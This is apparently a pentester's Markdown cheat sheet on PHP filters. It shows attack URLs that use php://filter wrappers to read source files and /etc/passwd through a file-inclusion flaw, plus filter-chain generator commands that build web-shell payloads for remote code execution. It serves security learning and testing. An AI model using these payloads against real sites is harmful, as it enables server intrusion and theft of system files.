 # PHP Filters

PHP Filters are a powerful wrappers of lots a functionality that take input and perform operations on it without developer having to write in-house checks, filters, etc against common input to website.
- [Validation Filters perform type and pattern checks](https://www.php.net/manual/en/filter.filters.validate.php)
- [Sanitization Filters perform string operations to modify unsafe input](https://www.php.net/manual/en/filter.filters.sanitize.php)
- [Only other is "callback" where all flags are ignored](https://www.php.net/manual/en/filter.filters.misc.php)
- [PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) provides developers to filter by builtin conditions-on-passed-input, encode the input.

File inclusion vulnerability exists due to how php filters are used with `include()`

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
```php
// only php://filter is case insensitive
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
// They can be chained together with:
// | or /
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
// base64encode only for limit exfil - buffer size 8192 bytes
```
- [PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
- [Filter Chains can used to chain encodings till a desired payload - yikes](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
	- Generate PHP filter chains with [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
	- Junk characters do end up appended to the end
- [LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
- Consider [Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```
No `system` no problem
```bash
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
```

## References

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
[PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
[Filter Chains Usage by Synacktiv](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
[LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
[Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
[Validation Filters](https://www.php.net/manual/en/filter.filters.validate.php)
[Sanitization Filters](https://www.php.net/manual/en/filter.filters.sanitize.php)
[Misc Filters](https://www.php.net/manual/en/filter.filters.misc.php)
[PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) 


